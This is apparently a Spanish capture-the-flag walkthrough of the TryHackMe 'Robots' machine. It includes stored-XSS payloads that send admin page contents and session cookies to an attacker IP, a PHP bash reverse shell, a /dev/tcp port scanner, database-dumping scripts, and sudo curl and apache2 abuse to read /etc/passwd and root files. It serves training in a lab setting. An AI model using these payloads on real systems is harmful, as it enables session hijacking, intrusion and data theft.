

## Reconocimiento
Lanzamos **nmap** a todos los puertos, con scripts y versiones de software:
```console
-p- --min-rate 5000 -Pn -sVC -n -oN nmap.txt 10.10.220.73
Nmap scan report for 10.10.220.73
Host is up (0.056s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.61
| http-robots.txt: 3 disallowed entries 
|_/harming/humans /ignoring/human/orders /harm/to/self
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: 403 Forbidden
9000/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: robots.thm
```

**Nota:** Enumeramos el dominio *robots.thm*, insertamos en nuestro fichero *hosts*.

Accedemos al servicio web por el puerto 80, vemos que no tenemos permitido el acceso, además se aprecia la versión de *Apache* sobre un *Debian*:


Encontramos otro servicio web por el puerto 9000, aunque este tiene otra versión diferente de Apache y está sobre un *Ubuntu*, esto podría ser porque estuviese a través de un *Docker*:


Encontramos un fichero *robots.txt* con **nmap** con varias rutas:


Buscando información sobre las rutas, encontramos que los directorios guardan relación con las *tres leyes de la robótica* por *Isaac Asimov*:


Accedemos a la última ruta y encontramos un sistema de registro y autenticación de usuarios:


Nos registramos, observamos que la contraseña es la combinación del nombre de usuario, día y fecha, esto es fácilmente explotable con ataques automatizados:


Nos autenticamos sobre el siguiente panel de autenticación:


Una vez dentro, observamos que somos el tercer usuario, por lo que en teoría hay dos usuarios más registrados (admin y...?). También vemos un enlace "*Server Info*" que nos lleva a un fichero *PHPInfo*:


Lanzamos la herramienta **dirsearch** en busca de más ficheros PHP, encontramos algunos interesantes como el de *admin.php* y *config.php*:
```console
dirsearch -u http://robots.thm/harm/to/self/ -e "php" -f /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -H "Cookie: PHPSESSID=fme67fpdo21ocnh7ejnohne3m1"


  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php | HTTP method: GET | Threads: 25 | Wordlist size: 14331

Output File: /home/kali/Documents/Robots/reports/http_robots.thm/_harm_to_self__25-03-15_19-11-46.txt

Target: http://robots.thm/

[19:11:46] Starting: harm/to/self/                    
[19:11:59] 200 -  252B  - /harm/to/self/admin.php                           
[19:12:12] 200 -    0B  - /harm/to/self/config.php                          
[19:12:14] 403 -  275B  - /harm/to/self/css/                                
[19:12:14] 301 -  319B  - /harm/to/self/css  ->  http://robots.thm/harm/to/self/css/
[19:12:31] 302 -    0B  - /harm/to/self/login.php  ->  index.php            
[19:12:32] 302 -    0B  - /harm/to/self/logout.php  ->  index.php           
[19:12:50] 200 -  491B  - /harm/to/self/register.php                        
                                                                             
Task Completed
```

Intentamos acceder al fichero "*admin.php*", pero no estamos autorizados, esto refuerza aún más la teoría de la existencia de un usuario administrador:


Intentamos registrar una cuenta con el usuario "*admin*", vemos que el servidor nos devuelve un error porque ya existe en la base de datos, esto nos permite enumerar usuarios ya existentes:


## Explotación
Creamos un script con **Python** para calcular el *MD5* con la combinación de "*admin+ddmm*" a través de un ataque automatizado pero sin éxito:
```console
python3 adminLogin.py
Probando: admin0101 -> 9fa28ee10dd991e9a14202134f71b1da | Status: 200
Probando: admin0201 -> 30ba50f336e9cd5990b84e88e5a39c52 | Status: 200
Probando: admin0301 -> d6076f4a6a06f4ba37c5fb63f7d8dafe | Status: 200
Probando: admin0401 -> 950de46c537fed51a9a03d25eea5c1d4 | Status: 200
Probando: admin0501 -> fbb9712c80376d635489f80662107d72 | Status: 200
Probando: admin0601 -> 173eccdec3a4093a73e14870a82bc822 | Status: 200
Probando: admin0701 -> 59fe0e358e440ec588707a0d91a2d99e | Status: 200
Probando: admin0801 -> fbc6dd321b472ac6e12b2aefbf8d82ba | Status: 200
Probando: admin0901 -> 5aab2a9e94d04690248961463459e9fe | Status: 200
Probando: admin1001 -> b6c65cac083246145e3f7d691403f2db | Status: 200
Probando: admin1101 -> 107c9d041d4d2980abc124ce92732c79 | Status: 200
Probando: admin1201 -> 0c14f5b67324ef12fa9ebf64a2064e13 | Status: 200
Probando: admin1301 -> 5f04534839d5b1b16b6dbf8aa741d3d8 | Status: 200
Probando: admin1401 -> 6d3e4177c876c6c2651932a55e2390cf | Status: 200
Probando: admin1501 -> 2a87b7a7457d4b1b54878b72f90032cf | Status: 200
.......
```

Tras varios intentos vemos que no funciona, pero recordamos el mensaje del panel de registro "U*n administrador está revisando nuevos registros de usuarios*", esto nos da por pensar que al igual es posible explotar un XSS Almacenado y robar la cookie de sesión del administrador.

Hacemos una prueba de concepto con el registro de un clásico XSS y vemos que funciona:


Tras registrarnos con un script que hará que saque la cookie, vemos que recibimos la llamada, pero no se muestra la cookie:


Pero tras las pruebas no es posible, y es normal, debido a que la cookie tiene el atributo *HttpOnly*, esto impide que se pueda extraer:


Pero no nos rendimos, ya que podemos intentar redirigir al usuario a otros puntos del aplicativo para ver la información que oculta.

Por ejemplo, podemos redirigir al fichero "*admin.php*", con la intención de recoger algún tipo de información solo visible para administradores:
```javascript
<script>fetch('/harm/to/self/admin.php').then(r => r.text()).then(d => new Image().src='http://10.9.1.77?data='+encodeURIComponent(d));</script>
```

```console
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.161.143 - - [15/Mar/2025 20:56:39] "GET /malicious.js HTTP/1.1" 200 -
10.10.161.143 - - [15/Mar/2025 20:56:39] code 404, message File not found
10.10.161.143 - - [15/Mar/2025 20:56:39] "GET /m3n0s.jpg?output= HTTP/1.1" 404 -
10.10.161.143 - - [15/Mar/2025 20:56:39] code 404, message File not found
10.10.161.143 - - [15/Mar/2025 20:56:39] "GET /m3.jpg?output= HTTP/1.1" 404 -
10.10.161.143 - - [15/Mar/2025 20:56:39] "GET /?b64= HTTP/1.1" 200 -
10.10.161.143 - - [15/Mar/2025 20:56:39] "GET /?data=%0A%3C!DOCTYPE%20html%3E%0A%3Chtml%20lang%3D%22en%22%3E%0A%3Chead%3E%0A%0A%20%20%3Cmeta%20charset%3D%22utf-8%22%3E%0A%20%20%3Ctitle%3EYour%20page%20title%20here%20%3A)%3C%2Ftitle%3E%0A%20%20%3Cmeta%20name%3D%22viewport%22%20content%3D%22width%3Ddevice-width%2C%20initial-scale%3D1%22%3E%0A%0A%20%20%3Clink%20rel%3D%22stylesheet%22%20href%3D%22css%2Fnormalize.css%22%3E%0A%20%20%3Clink%20rel%3D%22stylesheet%22%20href%3D%22css%2Fskeleton.css%22%3E%0A%0A%0A%3C%2Fhead%3E%0A%3Cbody%3E%0A%20%20%3Cdiv%20class%3D%22container%22%3E%0A%20%20%3Cdiv%20class%3D%22row%22%3E%0A%20%20%20%20%3Cdiv%20class%3D%22one-half%20column%22%20style%3D%22margin-top%3A%2025%25%22%3E%0A%20%20%20%20%20%20%3Ch4%3ETest%20url%3C%2Fh4%3E%0A%20%20%20%20%20%20%3Cform%20action%3D%22admin.php%22%20method%3D%22POST%22%3E%0A%20%20%20%20%20%20%3Cdiv%20class%3D%22six%20columns%22%3E%20%3Clabel%3Eurl%3C%2Flabel%3E%0A%20%20%20%20%20%20%3Cinput%20type%3D%22text%22%20name%3D%22url%22%20placeholder%3D%22url%22%3E%3C%2Fdiv%3E%0A%20%20%20%20%20%20%3Cdiv%3E%3Cinput%20name%3D%22submit%22%20type%3D%22submit%22%3E%3C%2Fdiv%3E%0A%20%20%20%20%20%20%3C%2Fform%3E%0A%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%3C%2Fdiv%3E%0A%3C%2Fdiv%3E%0A%0A HTTP/1.1" 200 -
```

##### Decodificación y contenido del fichero "admin.php":


##### Decodificación y contenido del fichero "index.php":


Utilizamos el siguiente código **JavaScript**, esto hará que el usuario acceda al fichero "*server_info.php*", imprima y robemos su cookie de sesión en el parámetro "*cookie*", eso sí, filtraremos por *PHPSESSID* para que quepa toda la petición y no nos pasemos de caracteres:
```javascript
<script>fetch('/harm/to/self/server_info.php').then(r=>r.text()).then(d=>{let c=d.match(/PHPSESSID=([a-z0-9]+)/);if(c)new Image().src='http://10.9.1.77?cookie='+c[1]});</script>
```

```console
10.10.161.143 - - [15/Mar/2025 21:22:43] "GET /?b64= HTTP/1.1" 200 -
10.10.161.143 - - [15/Mar/2025 21:22:43] "GET /?cookie=aircunhu8iud98cdmov5pk2v3k HTTP/1.1" 200 -
10.10.161.143 - - [15/Mar/2025 21:22:43] code 414, message URI Too Long
10.10.161.143 - - [15/Mar/2025 21:22:43] "" 414 -

```
Reutilizamos la cookie y accedemos al fichero *index.php* como el usuario admin:


Ahora si que podemos ejecutar esta opción, intentamos cargar el contenido interno del sitio web para evidenciar un *SSRF*, pero sin éxito:


Vemos que se puede incluir ficheros PHP:


Probamos con *Wrappers* y conseguimos extraer el código fuente que incluye las credenciales de la base de datos del fichero "*config.php*":


#### Contenido del fichero passwd


Probamos las credenciales sobre el servicio **SSH** pero sin éxito, probamos a ejecutar código remoto y vemos que si podemos:


Así que montamos una reverse shell codificada en *base64*, con el siguiente payload y conseguimos una conexión interactiva con la máquina:
```php
<?php echo shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.1.77/443 0>&1' &"); ?6
```
#### Ejecución reverse shell


#### Recepción reverse shell


Tras un reconocimiento rápido no encontramos mucha "*chicha*", también faltan muchos binarios conocidos y utilizados en el sistema, por lo que casi todo el descubrimiento y ataques nos tocará "*picar código*":
```console
www-data@robots:/$ ls -lna
ls -lna
total 64
drwxr-xr-x   1 0 0 4096 Aug 19  2024 .
drwxr-xr-x   1 0 0 4096 Aug 19  2024 ..
-rwxr-xr-x   1 0 0    0 Aug 19  2024 .dockerenv
lrwxrwxrwx   1 0 0    7 Aug 12  2024 bin -> usr/bin
drwxr-xr-x   2 0 0 4096 Mar 29  2024 boot
drwxr-xr-x   5 0 0  340 Mar 16 06:25 dev
drwxr-xr-x   1 0 0 4096 Aug 19  2024 etc
drwxr-xr-x   2 0 0 4096 Mar 29  2024 home
lrwxrwxrwx   1 0 0    7 Aug 12  2024 lib -> usr/lib
lrwxrwxrwx   1 0 0    9 Aug 12  2024 lib64 -> usr/lib64
drwxr-xr-x   2 0 0 4096 Aug 12  2024 media
drwxr-xr-x   2 0 0 4096 Aug 12  2024 mnt
drwxr-xr-x   2 0 0 4096 Aug 12  2024 opt
dr-xr-xr-x 189 0 0    0 Mar 16 06:25 proc
drwx------   1 0 0 4096 Aug 13  2024 root
drwxr-xr-x   1 0 0 4096 Aug 13  2024 run
lrwxrwxrwx   1 0 0    8 Aug 12  2024 sbin -> usr/sbin
drwxr-xr-x   2 0 0 4096 Aug 12  2024 srv
dr-xr-xr-x  13 0 0    0 Mar 16 06:25 sys
drwxrwxrwt   1 0 0 4096 Mar 16 07:10 tmp
drwxr-xr-x   1 0 0 4096 Aug 12  2024 usr
drwxr-xr-x   1 0 0 4096 Aug 13  2024 var
```

Vemos el fichero hosts, en el que enumeramos la IP *172.18.0.3*, si hay "3", hay "2" y "1" ;):
```console
www-data@robots:/$ cat /etc/hosts
cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.18.0.3      robots.thm robots
www-data@robots:/$ 
```

Anteriormente encontramos un fichero de configuración con las credenciales de la base de datos... ¿Pero dónde demonios está la base de datos?

Esta parte la vamos a disfrutar, ya que nos tocará realizar un escaneo de puertos a todas las IPs que hemos enumerados:

#### Escaneo de puertos sobre IP: 127.0.0.11

```bash
www-data@robots:/var/www/html/harm/to/self$ for port in $(seq 1 65356);do timeout 1 bash -c "echo '' > /dev/tcp/127.0.0.11/$port" 2>/dev/null && echo -e "[+] Open port: $port";done
[+] Open port: 53
[+] Open port: 80
```

#### Escaneo de puertos sobre IP: 172.18.0.1
```bash
www-data@robots:/tmp$ for port in $(seq 1 65356);do timeout 1 bash -c "echo '' > /dev/tcp/172.18.0.1/$port" 2>/dev/null && echo -e "[+] Open port: $port";done
[+] Open port: 22
[+] Open port: 80
[+] Open port: 9000
```

#### Escaneo de puertos sobre IP: 127.18.0.2
Encontramos el servicio **MySQL**!:
```bash
www-data@robots:/tmp$ for port in $(seq 1 65356);do timeout 1 bash -c "echo '' > /dev/tcp/172.18.0.2/$port" 2>/dev/null && echo -e "[+] Open port: $port";done
[+] Open port: 3306
```

Como no está instalado el cliente para **MySQL**, tendremos que programar un script en **PHP** para leer el contenido de las bases de datos, tablas y columnas:
```php
echo '<?php
// Configuración de la base de datos
$servername = "172.18.0.2";
$username = "**************";
$password = "**************";

try {
    // Conexión a MySQL usando PDO
    $conn = new PDO("mysql:host=$servername", $username, $password);
    $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

    // Consulta para listar las bases de datos
    $result = $conn->query("SHOW DATABASES");

    echo "Bases de datos disponibles:\n";
    while ($row = $result->fetch(PDO::FETCH_NUM)) {
        echo "- " . $row[0] . "\n";
    }
} catch (PDOException $e) {
    die("Error de conexión: " . $e->getMessage());
}

// Cerrar la conexión
$conn = null;
?>' > /tmp/list-db-pdo.php
```

Iremos modificando el script a medida que vayamos descubriendo las bases de datos y tablas, finalmente conseguimos extraer las credenciales de los usuarios registrados (Pues sí, habían 2 usuarios más ;)):
```console
www-data@robots:/tmp$ php list-db-pdo.php 
Bases de datos disponibles:
- information_schema
- web
www-data@robots:/tmp$ 
www-data@robots:/tmp$ php list-tables.php 
Tablas en la base de datos "web":
- logins
- users
www-data@robots:/tmp$ php dump-users.php 
Datos de la tabla "users":
id: 1
username: admin
password: ******************
group: admin
----
id: 2
username: rgiskard
password: ******************
group: nologin
----
id: 3
username: <script>fetch('/harm/to/self/admin.php').then(r => r.text()).then(d => new Image().src='http://10.9.1.77?data='+encodeURIComponent(d));</script>
password: ****************
group: guest
----
id: 5
username: <script>fetch('/harm/to/self/server_info.php').then(r=>r.text()).then(d=>{let c=d.match(/PHPSESSID=([a-z0-9]+)/);if(c)new Image().src='http://10.9.1.77?cookie='+c[1]});</script>
password: ******************
group: guest
----
www-data@robots:/tmp$ 

```

Cómo ya contamos con acceso al servidor, leemos el fichero "*register.php*", vemos que se está guardando codificando dos veces en *MD5*:
```php
www-data@robots:/tmp$ cat /var/www/html/harm/to/self/register.php 
<?php

include('config.php');


function formatDate($date) {
  // Split the date string into an array
  $dateParts = explode("/", $date);

  // Check if the date is in the correct format
  if (count($dateParts) === 3) {
      $day = $dateParts[0];
      $month = $dateParts[1];

      // Return the formatted string
      return $day . $month;
  } else {
      // Return an error message if the date format is incorrect
      die("Invalid date format. Please use dd/mm/yyyy.");
  }
}

if ( isset($_POST['submit']) && isset($_POST['username']) && isset($_POST['date_of_birth']) ) {

        
$dsn="mysql:host=$servername;dbname=$dbname;charset=utf8mb4";

$options = [
    PDO::ATTR_ERRMODE            => PDO::ERRMODE_EXCEPTION,
    PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    PDO::ATTR_EMULATE_PREPARES   => false,
          ];

$pdo = new PDO($dsn, $username, $password, $options);
$initial_password=md5($_POST['username'] . formatDate($_POST['date_of_birth']));

$stmt = $pdo->prepare("INSERT into users (username,password,`group`) values (?,md5(?),'guest')");
try {
    
    $stmt->execute([ $_POST['username'] , $initial_password  ]);
    header('Location: index.php');
    die();

} catch (PDOException $e) {
    echo "Something went wrong";
    die();
}


}
?>

```

Con la teoría sobre la mesa, creamos un script en **Python** para que vaya calculando un doble HASH en *MD5* de la combinación *<usuario+DDMM>* y comparándolo con el HASH de la base de datos:
```console
python3 rgiskardMD5.py
Probando: rgiskard**** -> **********************************
```

Con la contraseña en nuestro poder, nos conectamos por **SSH** y conseguimos acceder a la máquina, vemos que podemos escalar al usuario *dolivaw* con un **curl** desde **SUDO**:
```console
rgiskard@ubuntu-jammy:/home$ find / -name user.txt 2>/dev/null
rgiskard@ubuntu-jammy:/home$ sudo -l
[sudo] password for rgiskard: 
Matching Defaults entries for rgiskard on ubuntu-jammy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User rgiskard may run the following commands on ubuntu-jammy:
    (dolivaw) /usr/bin/curl 127.0.0.1/*
rgiskard@ubuntu-jammy:/home$        

```

Ejecutamos el siguiente comando como prueba de concepto, en el que logramos leer el fichero *passwd*:
```console
rgiskard@ubuntu-jammy:/$ sudo -u dolivaw /usr/bin/curl 127.0.0.1/ file:///etc/passwd -k
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.61 (Debian) Server at 127.0.0.1 Port 80</address>
</body></html>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:104:111::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
landscape:x:111:116::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:117:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
rgiskard:x:1002:1002::/home/rgiskard:/bin/bash
dolivaw:x:1003:1003::/home/dolivaw:/bin/bash
rgiskard@ubuntu-jammy:/$ 
```

Apuntamos ahora a la ruta del usuario *dolivaw* y al fichero *user.txt*, logramos leer la primera flag:
```console
rgiskard@ubuntu-jammy:/$ sudo -u dolivaw /usr/bin/curl 127.0.0.1/ file:///home/dolivaw/user.txt -k
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.61 (Debian) Server at 127.0.0.1 Port 80</address>
</body></html>
THM{************************}rgiskard@ubuntu-jammy:/$
```

## Escalada de privilegios
Ahora compartiremos nuestra clave pública **SSH** y levantamos un servidor HTTP con Python para descargar y almacenarla en el fichero *authorized_keys* del usuario *dolivaw*:
```console
rgiskard@ubuntu-jammy:/$ sudo -u dolivaw /usr/bin/curl 127.0.0.1/ http://10.9.1.77/m3.pub -o m3 -o /home/dolivaw/.ssh/authorized_keys -k
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0Warning: Failed to create the file m3: Permission denied
100   274  100   274    0     0   112k      0 --:--:-- --:--:-- --:--:--  133k
curl: (23) Failure writing output to destination
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    91  100    91    0     0    735      0 --:--:-- --:--:-- --:--:--   739
rgiskard@ubuntu-jammy:/$ 

```

Nos conectamos por *SSH* y conseguiremos acceder como este usuario, también vemos que tenemos privilegios elevados para ejecutar **Apache2** con **SUDO**:
```console
sudo ssh dolivaw@robots.thm -i /home/kali/.ssh/id_ed25519
dolivaw@ubuntu-jammy:~$ id
uid=1003(dolivaw) gid=1003(dolivaw) groups=1003(dolivaw)
dolivaw@ubuntu-jammy:~$ 
dolivaw@ubuntu-jammy:~$ sudo -l
Matching Defaults entries for dolivaw on ubuntu-jammy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dolivaw may run the following commands on ubuntu-jammy:
    (ALL) NOPASSWD: /usr/sbin/apache2
dolivaw@ubuntu-jammy:~$ 
```

Buscamos en [Gtfobins.github.io](https://gtfobins.github.io), encontramos que se puede explotar esta deficiencia a través de una lectura de fichero:


Configuramos la variable *LFILE* para que apunte a la ruta */root/root*.txt, a continuación lanzamos el comando, pero vemos que la variable *APACHE_RUN_DIR* no está definida, así que incluimos la variable apuntando a una ruta aleatoria y conseguimos que nos devuelva en el error la flag de root:
```console

dolivaw@ubuntu-jammy:~$ sudo /usr/sbin/apache2 -c "Include $LFILE" -k stop   
[Sun Mar 16 18:51:43.827809 2025] [core:warn] [pid 338346] AH00111: Config variable ${APACHE_RUN_DIR} is not defined
apache2: Syntax error on line 80 of /etc/apache2/apache2.conf: DefaultRuntimeDir must be a valid directory, absolute or relative to ServerRoot
dolivaw@ubuntu-jammy:~$ sudo -u root /usr/sbin/apache2 -C "DEFINE APACHE_RUN_DIR /tmp" -C "Include $LFILE" -k stop
[Sun Mar 16 18:54:00.187599 2025] [core:warn] [pid 338361] AH00111: Config variable ${APACHE_PID_FILE} is not defined
[Sun Mar 16 18:54:00.187682 2025] [core:warn] [pid 338361] AH00111: Config variable ${APACHE_RUN_USER} is not defined
[Sun Mar 16 18:54:00.187687 2025] [core:warn] [pid 338361] AH00111: Config variable ${APACHE_RUN_GROUP} is not defined
[Sun Mar 16 18:54:00.187699 2025] [core:warn] [pid 338361] AH00111: Config variable ${APACHE_LOG_DIR} is not defined
[Sun Mar 16 18:54:00.191284 2025] [core:warn] [pid 338361:tid 140503541651328] AH00111: Config variable ${APACHE_LOG_DIR} is not defined
[Sun Mar 16 18:54:00.191513 2025] [core:warn] [pid 338361:tid 140503541651328] AH00111: Config variable ${APACHE_LOG_DIR} is not defined
[Sun Mar 16 18:54:00.191544 2025] [core:warn] [pid 338361:tid 140503541651328] AH00111: Config variable ${APACHE_LOG_DIR} is not defined
AH00526: Syntax error on line 1 of /root/root.txt:
Invalid command 'THM{*********************************}', perhaps misspelled or defined by a module not included in the server configuration
dolivaw@ubuntu-jammy:~$ 
```
¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!